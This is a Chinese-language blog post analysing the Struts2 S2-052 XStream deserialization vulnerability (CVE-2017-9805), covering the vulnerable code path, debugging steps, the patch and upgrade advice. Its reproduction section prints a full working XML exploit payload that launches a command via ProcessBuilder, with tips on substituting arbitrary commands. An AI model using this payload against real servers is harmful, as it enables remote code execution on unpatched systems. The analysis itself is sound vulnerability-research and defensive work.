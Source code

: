 ```yaml
---
layout: post
title:  "Struts2-052漏洞分析"
date:   2017-09-08 10:02:01 +0800
categories: 漏洞分析
tag: 代码执行漏洞
---
```


* content
{:toc}


![strust2]({{ '/styles/images/struts2-052/strust2.jpg' | prepend: site.baseurl  }})

## 1.&emsp;漏洞描述 ##

* 漏洞描述：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。
* 漏洞编号：CVE-2017-9805
* 漏洞作者：lgtm.com的安全研究员
* 影响版本：Version 2.5.0 to 2.5.12 和 Version 2.3.0 to 2.3.33
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

-------|----
Who should read this|All Struts 2 developers and users
Impact of vulnerability|A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests
Maximum security rating|Critical
Recommendation|Upgrade to Struts 2.5.13 or Struts 2.3.34
Affected Software|Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12
Reporter|Man Yue Mo <mmo at semmle dot com> (lgtm.com / Semmle). More information on the lgtm.com blog: https://lgtm.com/blog
CVE Identifier|CVE-2017-9805


## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;本次漏洞触发点是REST插件在解析请求中的xml文件时，调用了XStreamHandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;本次漏洞的成因由两部分组成，一个是 Struts2 REST插件(struts2-rest-plugin-2.x.jar)本身没有对进入的数据进行安全检查，导致攻击者可以传入恶意的xml对象可以传入到XStream里。另一个是XStream在反序列化传入的xml造成的远程代码执行。

关键代码在org.apache.struts2.rest.ContentTypeInterceptor里。

	 public String intercept(ActionInvocation invocation) throws Exception {
	        HttpServletRequest request = ServletActionContext.getRequest();
	        ContentTypeHandler handler = selector.getHandlerForRequest(request);
	        
	        Object target = invocation.getAction();
	        if (target instanceof ModelDriven) {
	            target = ((ModelDriven)target).getModel();
	        }
	        
	        if (request.getContentLength() > 0) {
	            InputStream is = request.getInputStream();
	            InputStreamReader reader = new InputStreamReader(is);
	            handler.toObject(reader, target);
	        }
	        return invocation.invoke();
	    }

**ContentTypeHandler handler = selector.getHandlerForRequest(request);** 通过request数据获取执行方法：org.apache.struts2.rest.handler.XStreamHandler

**handler.toObject(reader, target);** 对获取到的序列化的xml数据进行反序列化操作，在这一阶段将序列化的恶意POC进行反序列化操作并造成代码执行。

这里我们直接断点打在上文说的两个地方，用恶意payload进行攻击。


![strust2]({{ '/styles/images/struts2-052/1.png' | prepend: site.baseurl  }})

我们可以看到整个的调用栈，找到断点处，f5进入断点逻辑，可以看到在标记处获取Content-Type的值为：application/xml。

![strust2]({{ '/styles/images/struts2-052/2.png' | prepend: site.baseurl  }})

继续debug，可以看到根据我们获取到的content-type值从而得到我们代码执行的调用栈地址：

![strust2]({{ '/styles/images/struts2-052/3.png' | prepend: site.baseurl  }})

指定了我们的处理方法，继续断点到handler.toObject(reader, target);处：

![strust2]({{ '/styles/images/struts2-052/4.png' | prepend: site.baseurl  }})

f5进去toObject函数方法，继续执行，在XStreamHanler.toObject调用了XStream的fromXml，从而进入反序列化流程：

![strust2]({{ '/styles/images/struts2-052/5.png' | prepend: site.baseurl  }})

继续执行，看到反序列化函数unmarshal，在这个函数执行时没有进行数据安全检查，导致远程代码执行。

![strust2]({{ '/styles/images/struts2-052/6.png' | prepend: site.baseurl  }})

返回执行结果：

![strust2]({{ '/styles/images/struts2-052/7.png' | prepend: site.baseurl  }})

## 4.&emsp;漏洞复现 ##

1. 通过网上下载含有struts2-rest-plugin-2.5.12.jar版本的官方环境struts2-rest-showcase-2.5.12.war。
2. 将下载的war包通过eclipse导入到工程中，File--->Import---->war file。
	
	![strust2]({{ '/styles/images/struts2-052/8.png' | prepend: site.baseurl  }})
3. 需要注意的是，由于javax.imageio的依赖关系，我们的环境的jdk版本需要是jdk8以上，jdk8某些低版本也是不行的，本文作者的版本是jdk8_111，后续的一些验证都是在这个版本上做的。
4. 启动工程，然后通过burpsuite进行抓包，然后Send to Reapeater 进行数据包篡改。

	![strust2]({{ '/styles/images/struts2-052/9.png' | prepend: site.baseurl  }})

5. 主要POC为：

		<map> 
		<entry> 
		<jdk.nashorn.internal.objects.NativeString> 
		<flags>0</flags> 
		<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> 
		<dataHandler> 
		<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
		<is class="javax.crypto.CipherInputStream"> 
		<cipher class="javax.crypto.NullCipher"> 
		<initialized>false</initialized> 
		<opmode>0</opmode> 
		<serviceIterator class="javax.imageio.spi.FilterIterator"> 
		<iter class="javax.imageio.spi.FilterIterator"> 
		<iter class="java.util.Collections$EmptyIterator"/> 
		<next class="java.lang.ProcessBuilder"> 
		<command> 
		<string>calc</string> 
		</command> 
		<redirectErrorStream>false</redirectErrorStream> 
		</next> 
		</iter> 
		<filter class="javax.imageio.ImageIO$ContainsFilter"> 
		<method> 
		<class>java.lang.ProcessBuilder</class> 
		<name>start</name> 
		<parameter-types/> 
		</method> 
		<name>foo</name> 
		</filter> 
		<next class="string">foo</next> 
		</serviceIterator> 
		<lock/> 
		</cipher> 
		<input class="java.lang.ProcessBuilder$NullInputStream"/> 
		<ibuffer></ibuffer> 
		<done>false</done> 
		<ostart>0</ostart> 
		<ofinish>0</ofinish> 
		<closed>false</closed> 
		</is> 
		<consumed>false</consumed> 
		</dataSource> 
		<transferFlavors/> 
		</dataHandler> 
		<dataLen>0</dataLen> 
		</value> 
		</jdk.nashorn.internal.objects.NativeString> 
		<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> 
		</entry> <entry> 
		<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
		<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
		</entry> 
		</map>

**注意事项：** 

1. 注意如果数据包请求方式为GET的话需要修改为POST请求方式。
2. 注意修改Content-Type的值为：application/xml。
3. 该POC为windows服务器上弹出计算器payload,若想修改为其他执行payload，将`<string>calc</string>	`中的calc替换为你想执行的命令，空格用多个 `<string></string>	`标签嵌套。

## 5.&emsp;修复方案 ##

### 5.1&emsp;补丁分析 ###

对struts2-rest-plugin-2.5.12.jar中的struts-plugin.xml进行分析，可以看到XStreamHanler就是Content-Type:xml的默认处理句柄，而且可以看出xml是默认支持格式，这也就是说存在rest插件就会存在XStream的反序列化漏洞。

![strust2]({{ '/styles/images/struts2-052/10.png' | prepend: site.baseurl  }})

通过对比[官方的补丁](https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264 "https://github.com/apache/struts/commit/19494718865f2fb7da5ea363de3822f87fbda264"),我们可以看到最主要的修复逻辑在plugins/rest/src/main/java/org/apache/struts2/rest/handler/XStreamHandler.java中：

![strust2]({{ '/styles/images/struts2-052/11.png' | prepend: site.baseurl  }})

在官方的修复方案中,主要就是将xml中的数据白名单化，把Collection和Map，一些基础类，时间类放在白名单中，这样就能阻止XStream反序列化的过程中带入一些有害类。

### 5.2&emsp;修复建议 ###

1. Version 2.3.0 to 2.3.33升级到Struts 2.3.34版本
2. Version 2.5.0 to 2.5.12升级到Struts 2.5.13版本